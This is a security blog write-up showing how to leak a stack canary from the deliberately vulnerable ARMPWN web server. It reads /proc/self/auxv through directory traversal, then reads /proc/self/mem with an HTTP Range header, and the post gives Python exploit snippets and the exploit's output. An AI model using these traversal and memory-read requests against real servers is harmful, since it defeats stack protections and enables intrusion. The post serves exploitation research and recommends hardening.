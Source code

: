 +++
title = "ARMPWN redux: canary reloaded"
author = "hugsy"
date = 2017-01-24T00:00:00Z
updated = 2017-01-24T00:00:00Z

[taxonomies]
tags = ["linux,pwn,arm,ssp,armpwn"]
categories = [" ctf"]

[extra]
header_img = "img/canary-header.png"
+++

>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

# Intro

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is [here](https://www.elttam.com.au/blog/playing-with-canaries)
  * the code repository is [there](https://github.com/elttam/canary-fun)

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8) (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/posts/2016/06/13/armpwn-challenge-write-up.html), a vulnerable web server
created by  {{ twitter(user="5aelo") }} to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176)
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976)


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201)
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

```c
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
```

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary).


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

```python
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
```

And then parse the result:

```python
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
```

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

```python
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
```


<div markdown="span" class="alert-warning"><i class="fa fa-info-circle">&nbsp;Warning:</i> `yama/ptrace_scope` must be set to 0 to be able to read the process</div>
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

```txt
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
```

To be we fetched the correct value for the canary of the remote process, we can use [this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally to compare the values for the canary:

![image_alt](https://i.imgur.com/IWpuMIy.png)



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore defeat the SSP protection. As you may have noticed, since this attack does not rely on memory corruption, it is extremely reliable. And it is also much faster: the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as possible, especially on production systems, since restricting `ptrace`, or refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any question/comment ☕
